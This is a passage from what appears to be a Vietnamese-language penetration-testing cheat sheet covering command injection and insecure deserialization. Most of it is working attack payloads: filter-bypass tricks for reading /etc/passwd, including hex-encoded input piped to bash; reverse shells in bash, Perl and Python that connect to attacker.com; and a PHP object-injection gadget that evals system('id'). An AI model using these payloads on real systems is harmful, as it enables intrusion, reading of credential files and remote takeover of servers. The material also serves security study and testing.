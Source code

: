 ### Filter bypass techniques:

```
# Bypass space filter
cat</etc/passwd
{cat,/etc/passwd}
X=$'cat\x20/etc/passwd'&&$X

# Bypass blacklist commands
w'h'o'am'i
/???/??t /???/p??s??

# Command substitution
$(ls -la)
`cat /etc/passwd`

# Encoding techniques
echo $'\x63\x61\x74\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'|bash    # Hex
```

### Setting up reverse shells from command injection:

```bash
# Bash reverse shell
bash -c 'bash -i >& /dev/tcp/attacker.com/4444 0>&1'

# Perl reverse shell
perl -e 'use Socket;$i="attacker.com";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'

# Python reverse shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker.com",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## 3.7. Insecure Deserialization

Insecure Deserialization xảy ra khi ứng dụng giải mã chuyển (deserialize) dữ liệu người dùng không đáng tin cậy mà không thực hiện kiểm tra phù hợp, dẫn đến RCE, đánh cắp dữ liệu, hoặc DoS.

### PHP serialization attacks:

```php
// Tạo object độc hại PHP
class PHPObjectInjection
{
    public $inject = "system('id');";
    
    public function __destruct()
    {
        eval($this->inject);
    }
}

// Serialize object
$obj = new PHPObjectInjection();
echo serialize($obj);
// O:18:"PHPObjectInjection":1:{s:6:"inject";s:11:"system('id');";}
```
